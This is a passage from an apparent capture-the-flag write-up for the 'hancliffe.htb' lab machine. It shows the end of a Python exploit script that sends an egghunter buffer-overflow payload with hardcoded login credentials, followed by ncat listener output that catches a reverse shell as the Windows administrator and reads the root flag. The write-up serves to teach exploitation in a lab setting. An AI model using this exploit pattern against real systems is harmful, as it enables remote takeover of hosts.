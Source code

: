 ```py
payload += egghunter
payload += b'\x90' * (offset - len(egghunter))
payload += jmp_eax
payload += b'\x90' * 50
payload += b'w00tw00t'
payload += buf


io.sendlineafter('Username: ','alfiansyah')
io.sendlineafter('Password: ', 'K3r4j@@nM4j@pAh!T')
io.sendlineafter('FullName: ', 'what ever')
io.sendlineafter('Input Your Code: ', payload)
```

We set up a ncat listener on the port we specified and run the exploit script.

```
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

```
$ python exploit.py
[+] Opening connection to hancliffe.htb on port 9999: Done
[*] Closed connection to hancliffe.htb port 999
```

After a short delay the egghunter finds the string and moves execution to the shellcode resulting in a reverse shell as the administrator user and the root flag.

```
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.95.247.
Ncat: Connection from 10.129.95.247:57539.
Microsoft Windows [Version 10.0.19043.1266]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

hancliffe\administrator
C:\Windows\system32>powershell

Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Windows\system32> cat \users\administrator\desktop\root.txt | measure -c

Lines Words Characters Property
----- ----- ---------- --------
                    32
```

